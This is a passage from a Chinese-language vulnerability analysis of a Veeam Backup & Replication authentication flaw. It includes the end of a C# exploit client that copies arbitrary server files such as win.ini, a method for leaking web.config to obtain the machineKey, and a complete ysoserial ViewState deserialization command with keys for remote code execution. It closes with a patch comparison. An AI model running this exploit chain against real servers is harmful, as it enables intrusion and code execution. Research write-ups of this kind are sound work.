30        FISpec.SetString("TaskType", "Package");
31        FISpec.SetString("FixProductType", "");
32        FISpec.SetString("FixProductVeresion", "");
33        FISpec.SetUInt64("FixIssueNumber", 0);
34        FISpec.SetString("SshCredentials", SStringMasker.Mask("", "{e217876c-c661-4c26-a09f-3920a29fc11f}"));
35        FISpec.SetString("SshFingerprint", "");
36        FISpec.SetBool("SshTrustAll", true);
37        FISpec.SetBool("CheckSignatureBeforeUpload", false);
38        FISpec.SetEnum<ESSHProtocol>("DefaultProtocol", ESSHProtocol.Rebex);
39        FISpec.SetString("FileRelativePath", "FileRelativePath");
40        FISpec.SetString("FileRemotePath", @"C:\windows\test.txt");
41        FISpec.SetString("FileProxyPath", @"C:\windows\win.ini");
42        FIData.InjectChild(FISpec);
43
44        Console.WriteLine(FIData.Root.OuterXml);
45
46        new BinaryWriter(authStream).WriteCompressedString(FIData.Root.OuterXml, Encoding.UTF8);
47
48        string response = new BinaryReader(authStream).ReadCompressedString(int.MaxValue, Encoding.UTF8);
49        Console.WriteLine("response:");
50        Console.WriteLine(response);
51    }
52    catch (Exception e)
53    {
54        Console.WriteLine(e);
55    }
56    finally
57    {
58        authStream.Close();
59    }
60    Console.ReadKey();
61} 
```

csharp

成功复制文件。



getshell[](#getshell)
---------------------

目前只是能复制服务器上已有的文件，文件名可控，但是文件内容不可控。如何getshell？

看了看安装完成之后的Veeam有几个web



在`C:\Program Files\Veeam\Backup and Replication\Enterprise Manager\WebApp\web.config`中有machineKey，然后就是懂得都懂了，把web.config复制一份写入到1.txt中，然后通过web访问拿到machineKey



最后ViewState反序列化就行了。

```
1.\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "calc" --validationkey="0223A772097526F6017B1C350EE18B58009AF1DCF4C8D54969FEFF9721DF6940948B05A192FA6E64C74A9D7FDD7457BB9A59AF55D1D84771A1E9338C4C5E531D" --decryptionalg="AES"  --validationalg="HMACSHA256" --decryptionalg="AES" --decryptionkey="0290D18D19402AE3BA93191364A5619EF46FA7E42173BB8C" --minfy --path="/error.aspx" 
```

powershell



修复[](#修复)
=========

对比补丁，上传的地方加了文件名校验



授权的地方用的CInvokerAdminNegotiateAuthenticator



不仅判断了是不是授权用户，而且判断了是否是管理员



总结[](#总结)
=========

这个漏洞给我的感觉学到了很多东西，像tcp编程，Windows鉴权机制在csharp中的应用，以及在大型应用文件传输的一些漏洞点。

另外最后一点通过复制文件拿到web.config是我自己想出来的思路，不知道漏洞发现者Nikita Petrov是否和我的做法一致，或者还有其他的利用方式。

漏洞修复了鉴权，但是感觉授权之后仍然可能会存在一些其他的漏洞，毕竟CInvokerServerSyncExecuter仍然有很多的Service可以走，而不仅仅是CEpAgentConfigurationServiceExecuter。

分析这个洞我并不是全部正向看的，更多取决于补丁diff，但是这种大型软件的开发架构让我自己感觉学到了很多。

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
